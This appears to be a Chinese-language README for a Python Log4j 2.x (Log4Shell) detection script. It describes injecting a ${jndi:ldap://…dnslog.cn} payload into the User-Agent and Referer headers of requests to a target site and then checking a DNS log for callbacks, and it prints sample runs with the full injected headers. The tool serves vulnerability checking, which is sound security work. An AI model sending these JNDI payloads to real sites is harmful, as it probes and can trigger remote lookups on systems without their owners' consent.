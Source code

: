 # Log4j-2.x-pythonscript

这是本人研究了一阵子之后写出来的脚本，一些网站使用Log4j，他会记录一些使用者的操作记录，也就是说只要是他能记录的功能就都有可能存在被注入的可能。
根据这种特性，笔者大胆猜测，绝大多数被记录的东西除了网站合法的搜索、表单的提交、登录等，那么是不是一些请求的User-agent/referer也会被记录下来呢？

经过测试，的确是这样的，一些存在此漏洞的网站的确也可以通过上述的方式进行构造注入的请求，那么一切就变得简单了起来。

整体思维如下：
1.访问DNSLOG平台，获取DNSLOG短域名
2.访问疑似存在漏洞的地址，将POC插入至user agent头中
3.提交请求，而后程序延迟60秒，因为dns回显会存在一定的延迟，这就导致如果立即请求回显页面，那么可能会看不到任何的回显，大多数存在漏洞的网站回显时间不会超过60秒
4.60秒之后查看DNS回显结果，若是成功，则会记录

使用方式
python -u 漏洞地址


E:\PyCharm 2020.1\new>python 2.py -u http://www.xxx.com/
+---------------------------------------------------------------+
+ [Log4j 2.x 漏洞检测工具]                                         +
+ [开发者：vlan911]                                               +
+ [使用方式: python Log4j.py -u/--url http://xxx.xxx.xxx.xxx]         +
+---------------------------------------------------------------+
3ocxzg.dnslog.cn
{'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0${jndi:ldap://3ocxzg.dnslog.cn}', 'Cookie': 'addm90q6duunpj3vr4es815hl3', 'Referer': 'http
://www.xxx.com/{jndi:ldap://3ocxzg.dnslog.cn}'}
[["3ocxzg.dnslog.cn","*.*.*.*","2021-12-10 22:58:38"]]
[http://www.xxx.com/][===存在漏洞===]


E:\PyCharm 2020.1\new>python 2.py -u http://xxx.com
+---------------------------------------------------------------+
+ [Log4j 2.x 漏洞检测工具]                                      +
+ [开发者：vlan911]                                             +
+ [使用方式: python Log4j.py -u/--url http://xxx.xxx.xxx.xxx]   +
+---------------------------------------------------------------+
pwnm04.dnslog.cn
{'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0${jndi:ldap://pwnm04.dnslog.cn}', 'Cookie': 'addm90q6duunpj3vr4es815hl3', 'Referer': 'http
://xxx.com{jndi:ldap://pwnm04.dnslog.cn}'}
[]
[http://xxx.com][不存在漏洞]


脚本请移步右侧的release下载

